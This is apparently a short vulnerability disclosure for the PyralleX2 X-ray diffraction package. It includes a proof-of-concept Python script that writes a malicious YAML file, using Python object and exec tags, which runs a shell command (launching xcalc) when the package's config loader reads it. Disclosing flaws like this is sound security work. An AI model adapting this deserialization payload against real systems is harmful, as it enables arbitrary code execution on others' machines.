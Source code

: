 # :book: Description

`PyralleX2` A simulation suite for X-ray diffraction experiments, this package is vulnerable for `arbitaryCodeexecution`

https://github.com/MasterVexillen/PyralleX2

# :recycle:  Steps To Reproduce-:  
  0) `git clone https://github.com/MasterVexillen/PyralleX2`
  1) run as in poc.png
  poc.py 
```
from src.PyralleX2.params import *

payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""

open('payload.yaml','w+').write(payload)

read_config('payload.yaml')
```
# :telescope: POC


## 💥 Impact
Arbitary code execution
